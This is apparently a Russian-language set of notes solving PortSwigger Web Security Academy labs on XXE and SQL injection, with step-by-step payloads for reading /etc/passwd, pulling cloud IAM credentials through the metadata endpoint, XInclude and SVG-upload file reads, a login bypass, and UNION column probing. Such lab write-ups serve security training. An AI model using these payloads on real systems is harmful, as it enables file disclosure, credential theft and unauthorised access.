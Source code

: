 # XXE

1. https://portswigger.net/web-security/xxe/lab-exploiting-xxe-to-retrieve-files

+ 1)зайти на сайт, 

+ 2)выбрать продукт, 

+ 3)нажать *Check stock*, 

+ 4)перехватить Post запрос через BURP 

+ 5)после объявления xml добавить

```xml
<!DOCTYPE kek [ <!ENTITY res SYSTEM "file:///etc/passwd"> ]> 
```

+ 6)заменить product id число на `&res;` 

+ 7)после этого просто отправить запрос и в ответе придёт /etc/passwd

____

2. https://portswigger.net/web-security/xxe/lab-exploiting-xxe-to-perform-ssrf

те же действия, что и в предыдущей. до пункта 4) 

+ 5)после объявления xml добавить:

```xml
<!DOCTYPE kek [ <!ENTITY res SYSTEM "http://169.254.169.254/"> ]>
```

+ 6)заменить product id на `&res;` отправить запрос, 

+ 7)в ответе придет `latest` - добавить его к адресу и получим 

```xml
<!DOCTYPE kek [ <!ENTITY res SYSTEM "http://169.254.169.254/latest"> ]> 
```
и так далее, 

+ n+1)в итоге получаем 

```xml
<!DOCTYPE kek [ <!ENTITY res SYSTEM "http://169.254.169.254/latest/meta-data/iam/security-credentials/admin"> ]>
```
что и приведёт нас к ответу.

3. https://portswigger.net/web-security/xxe/lab-xinclude-attack

те же действия, что и в 1. до пункта 4) 

+ 5)в *product id* вставить 
```xml
<foo xmlns:xi="http://www.w3.org/2001/XInclude"> 
<xi:include parse="text" href="file:///etc/passwd"/></foo> 
```

+ 6)в ответ придёт /etc/passwd


____


4.https://portswigger.net/web-security/xxe/lab-xxe-via-file-upload

+ 1)зайти на сайт

+ 2)выбрать статью 

+ 3)нажать отправить комментарий(заполнить все поля предварительно) 

+ 4)перехватить запрос через Burp

+ 5)в поле для картинки вставить: 

```xml
<?xml version="1.0" encoding="UTF-8" standalone="yes"?>
<!DOCTYPE kek [ <!ENTITY res SYSTEM "file:///etc/hostname"> ]>
 <svg  version="1.1" width="1200" height="1200"
        viewBox="0 0 100 100"
     baseProfile="full"
     xmlns="http://www.w3.org/2000/svg"
     xmlns:xlink="http://www.w3.org/1999/xlink"
     xmlns:ev="http://www.w3.org/2001/xml-events">
 <text font-size = "10" y = "16"> &res; </text>
</svg>
```

+ 6)svg части взяты из интернета - видимо что-то типа стандарта,размер задан вручную, ViewBox регулировался так, чтоб было видно текст на картинке, собственно как и размер текста(тоже регулировался)

____

# SQL

1. https://portswigger.net/web-security/sql-injection/lab-login-bypass

+ 1)в графе login ввести administrator'--

____

2. https://portswigger.net/web-security/sql-injection/union-attacks/lab-find-column-containing-text 

+ 1)в category использовать '+union+select+NULL,NULL,NULL - так убедимся, что у нас 3 столбца в таблице

+ 2)заменяем NULL по очереди на `HmnfQ2` - дано в задании
https://ac811f101ea3312280cb0ad600a4009a.web-security-academy.net/filter?category=%27+UNION+SELECT+NULL,%27HmnfQ2%27,NULL-- 

+ 3)второй столбец оказался верным - выводится результат